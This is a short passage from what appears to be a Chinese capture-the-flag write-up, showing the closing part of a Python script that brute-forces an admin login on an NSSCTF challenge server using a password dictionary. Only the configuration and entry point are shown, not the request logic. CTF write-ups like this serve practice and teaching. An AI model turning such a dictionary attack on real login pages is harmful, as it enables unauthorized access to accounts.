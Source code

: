 ```python
            continue
    
    print("\n\n所有密码尝试完毕，未找到正确密码")
    return None

if __name__ == "__main__":
    # 配置参数 - 根据实际情况修改
    TARGET_URL = 'http://node6.anna.nssctf.cn:29799/login.php'
    USERNAME = 'admin'  # 根据实际情况修改
    SECRET_KEY = 'easy_signin'  # 根据实际情况修改
    
    # 获取字典文件路径
    if len(sys.argv) < 2:
        print("用法: python password_cracker.py <字典文件路径>")
        sys.exit(1)
    
    DICT_PATH = sys.argv[1]
    
    # 执行爆破
    crack_password(TARGET_URL, USERNAME, SECRET_KEY, DICT_PATH)
```

![image-20250530235825226](assets/image-20250530235825226.png)

